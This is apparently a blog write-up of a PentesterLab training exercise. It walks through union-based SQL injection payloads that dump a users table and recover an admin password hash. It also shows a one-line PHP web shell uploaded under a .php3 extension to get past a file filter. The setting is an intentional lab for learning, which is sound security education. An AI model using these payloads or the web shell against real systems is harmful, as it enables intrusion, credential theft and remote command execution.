<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Use SQL Injection to gain administrative web access. From there, gain shell access to the box.</td>
			</tr>
			<tr>
				<th scope='row'>Badge</th>
				<td>White Badge (2 of 6)</td>			
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>SQL Injection<br>Weak Credentials<br>Arbitrary File Upload</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td>
                    <a class='table-link' target='_blank' href='https://pentesterlab.com/exercises/from_sqli_to_shell/online'>https://pentesterlab.com/exercises/from_sqli_to_shell/online</a>
                </td>
			</tr>
				<th scope='row'>Flag</th>
				<td>
                	
                </td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #12 Writeup


Open the exercise URL points me to what appears to be a photo blog.  One thing immediately stands out, the 'Admin' tab.


<figure>
    
    <figcaption>Challenge Entry</figcaption>
</figure>

<br>

It appears the 'Admin' tab requires a login complete with username and password.  So my first step was to determine if the site was using SQL to pull pictures.  I attempted this with a typical SQLi command `OR 1=1` appended to the end of the URL.

```
exerciseURL/cat.php?id=1%20or%201=1
```

Sure enough, this bore fruit as all pictures were returned.


<figure>
    
    <figcaption>Getting All Pictures Returned</figcaption>
</figure>

<br>

My next steps were to determine how far I could get using SQL injection.  Ideally, I could query the tables and find a way to gain administrative access. I tried selecting all the tables with the command: 
```
UNION SELECT table_name FROM information_schema.tables
``` 

Unfortunately, this returned an error.

<figure>
    
    <figcaption>Trying to Select All Tables</figcaption>
</figure>

<br>

After some trial-and-error I could use the following command to view all the tables: 
```
UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables
```

<br>

As you can see from below, I am really only interested in the `users` table.


<figure>
    
    <figcaption>Selecting All Tables</figcaption>
</figure>

<br>
<br>

Next, I select the columns found in the users table so I can query it using the command:
```
UNION SELECT 1,concat('column: ', column_name),3,4 FROM information_schema.columns WHERE table_name='users'
```


<figure>
    
    <figcaption>Selecting Users Columns</figcaption>
</figure>

<br>
<br>

Okay, now I can select from the users table using the following command:

```
UNION SELECT 1,concat(login,' - ',password),3,4 FROM users;
```

<figure>
    
    <figcaption>Selecting * From Users Table</figcaption>
</figure>

<br>
<br>

Great, we have the admin password hash now. Typically I would open john (the ripper) or hashcat and a giant word list and starting trying to solve for this hash.  However, the first step I take is to simply put the hash in google.  Many hashes of poor or weak passwords are already out in the wild.  After a quick google search, I found the admin's password to be `P4ssw0rd`.  Solid.


<figure>
    
    <figcaption>Googling a Hash</figcaption>
</figure>

<br>

Using the username `admin` and the password `P4ssw0rd` grants me access to the admin section of this web photo blog. Right away the feature `Add a new picture` stands out to me because this has possibilities as an attack vector.  Something else that occurred to me is how similar this would be to a word press installation penetration test.  I have actually performed such an attack where I used SQLi to breach the admin panel and then uploaded a php shell to gain root access.

<br>

Therefore, the first thing I try is to upload a php shell.  I create a file <em>shell.php</em> containing the following code:

```
<?php
	system($_GET['cmd']);
?>
```


<br>

This should allow me command injection if I can execute it from the client side of the app.  So I use the add a new picture feature to add the shell, but I get an error, "NO PHP".


<figure>
    
    <figcaption>No PHP</figcaption>
</figure>

<br>

I recall that some older versions of apache simply won't catch a small change in the extension so I could use php3, php4, php5, etc.  I rename the file to `shell.php3` and reupload.  The trick works, and I am able to upload the shell.  Next, I must find the location so that I can execute commands.  I open up my chrome inspector and just check the location of the images (of which I just uploaded).  


<br>
<figure>
    
    <figcaption>Finding Uploads</figcaption>
</figure>

<br>
<br>

When I browse to `exerciseURL/admin/uploads/shell.php3`, I get the following system error:


<figure>
    
    <figcaption>Running Shell</figcaption>
</figure>

<br>
<br>

Which can simply be remedied by adding back the `cmd` parameter.  Here is my proof of concept:


<figure>
    
    <figcaption>Running a Command</figcaption>
</figure>

<br>


Once I could run commands, the pentesterlab instructions told me to run the command:

```
/usr/local/bin/score b12efbda-83b0-4201-9689-80fec51866cd
```

<br>

Which, once ran, completed the exercise and gave me the following.


<figure>
    
    <figcaption>Exercise Completed</figcaption>
</figure>

<br>
<br>


